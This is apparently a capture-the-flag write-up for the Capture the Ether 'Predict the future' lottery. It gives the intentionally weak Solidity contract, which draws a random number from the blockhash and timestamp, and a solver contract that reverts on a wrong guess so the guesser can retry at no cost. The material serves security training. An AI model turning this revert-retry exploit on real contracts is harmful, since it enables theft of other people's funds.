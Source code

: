 # Predict the future
<sup>LOTTERIES: 500 POINTS</sup>

This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.

```solidity
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

Enjoy this inspirational music while you work: [I Predict](https://youtu.be/TH5USLpPa_0).



`uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10; -> At most 10 numbers`

```solidity
pragma solidity ^0.4.21;

interface IPredictTheFutureChallenge {
    function lockInGuess(uint8 n) external payable;
    function settle() external;
    function isComplete() external view returns(bool);
}

contract PredictTheFutureSolver {
    
    IPredictTheFutureChallenge public challenge;
    address public owner;

    event challengeSolved(uint256 balance);

    constructor(address challengeAddress) public {
        challenge = IPredictTheFutureChallenge(challengeAddress);
        owner = msg.sender;
    }

    function withdraw() public payable {
        require(msg.sender == owner, "Only owner can withdraw funds");
        msg.sender.transfer(address(this).balance);
    }

    function lockNumber(uint8 n) public payable {
        challenge.lockInGuess.value(1 ether)(n);
    }
    
    function settleChallenge() public payable {
        challenge.settle();
        require(challenge.isComplete(), "Wrong answer");
        emit challengeSolved(address(this).balance);
    }

    function() external payable {}

}
```

Lock a number then use the `settleChallenge` function, if the solution is not correct you won't loose any ETH since if the `require(challenge.isComplete())` fails it will revert the execution.
